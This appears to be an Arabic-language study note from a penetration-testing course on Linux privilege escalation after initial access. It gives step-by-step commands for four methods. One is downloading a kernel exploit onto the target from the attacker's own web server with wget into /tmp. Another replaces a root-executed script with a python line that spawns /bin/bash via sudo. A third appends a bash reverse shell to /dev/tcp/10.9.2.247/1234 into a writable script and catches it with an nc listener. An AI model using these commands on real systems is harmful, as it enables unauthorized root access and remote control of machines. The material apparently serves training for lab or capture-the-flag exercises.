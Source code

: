 قبل م تعمل اي حاجه في ال Post-Exploitation  
ابدا بال Linux kernel exploits

# اول سيناريوا انك هتنزل ثغره وثغره دي هتخليك root علي طول

### 1. اول حاجه تعملها انك تعمل الامر ده علشان تعرف نوع جهاز المستخدم 

```
uname -a
```

### 2. ثم تعمل اي الاوامر دي علشان تعرف معلومات علي ال kernel اكثر 

```
lsb_release -a
```
 
 بالاوامر دي انت عرفت معلومات كثير علي ال os

### 3. روح اعمل exploit علي معلومات دي بال [[manual Exploitation]]


### 4. # بعد م نزلت الثغره انت محتاج تشغلها علي جهاز ال target

#### 1.  بروح اعمل ال ip بتاعي يكون موقع 
```
python3 -m http.server
```

#### 2. بخش جوه المجلد tmp ليه لانه بيعمل الاوامر منغير permetions
```
cd tmp
```



#### 3. بروح اخلي الtarget ينزل ملف الثغره من الموقع بتاعي 

```
wget http://192.168.230.251:8000/9542.c
```

#### 4.  شغل الثغره بقي حسب نوع لغه الثغره

شوف الطريقه من ال [[manual Exploitation]]


---

# ثاني سيناريوا انك هتنزل ثغره وثغره دي هتخليك تحط باسورد لل root


### 1. اول حاجه تعملها انك تعمل الامر ده علشان تعرف نوع جهاز المستخدم 

```
uname -a
```

### 2. ثم تعمل اي الاوامر دي علشان تعرف معلومات علي ال kernel اكثر 

```
lsb_release -a
```
 
 بالاوامر دي انت عرفت معلومات كثير علي ال os

### 3. روح اعمل exploit علي معلومات دي بال [[manual Exploitation]]




### 4. # بعد م نزلت الثغره انت محتاج تشغلها علي جهاز ال target

#### 1.  بروح اعمل ال ip بتاعي يكون موقع 
```
python3 -m http.server
```

#### 2. بخش جوه المجلد tmp ليه لانه بيعمل الاوامر منغير permetions
```
cd tmp
```



#### 3. بروح اخلي الtarget ينزل ملف الثغره من الموقع بتاعي 

```
wget http://192.168.230.251:8000/9542.c
```

#### 4.  شغل الثغره بقي حسب نوع لغه الثغره

شوف الطريقه من ال [[manual Exploitation]]

#### 5. وانت بتشغل الثغره هتلاقي بيقولك اعمل باسورد لل root مثال :
![[Pasted image 20250315173114.png]]
انت اللي عملت الباسورد ف بتروح لل ssh وتحاول تخش باسم ال root والباسورد اللي انا عملته 

---
# ثالث سيناريوا لو لقيت ال root عامل ملف ثغره زي ph .sh .php .c. وتقدر تفتحه وتقراه 

### روح امسح الملف واعمل ملف بنفس الاسم بالظبت 

```
 rm -rf اسم الملف
```
### اكتب الكوده داخله

```
echo 'import os;os.system("/bin/bash");' >> اسم الملف
```
### اخر حاجه محتاج تعمل excution  للملف اعمله بلامر ده
##### روح الاول اعرف مسار الملف من عند ال home
```
 pwd اسم الملف
```
##### اعمل امر ال excution
```
sudo python / home اسم الملف / مسار الملف لحد ال
مثال
sudo python /home/meliodas/bak.py
```

# رابع سيناريوا لو لقيت ملف ثغره زي ph .sh .php .c. عامتا مش شرط ال root هو اللي عامله 
### تروح تحط فيه reverse shell :
#### الخطوات :
##### 1. روح اعمل  reverse shell من الموقع https://www.revshells.com/ 


##### 2. اكتب الامر ده : هيضيف ال reverse shell  لل ملف
```
echo ' اللي عملتهreverse shell ال ' >> filename 

مثال

echo 'bash -i >& /dev/tcp/10.9.2.247/1234 0>&1' >> id.sh
```

##### 3. روح اعمل listen علي ال port اللي عامله في ال reverse shell 

```
nc -lvnp رقم البورت
```

##### 4.  وبعدين نفذ الملف 
شوف الطريقه من ال [[manual Exploitation]]



# اختبر حفظك : [[شرح الكورس لل (Q) Linux kernel exploits]]

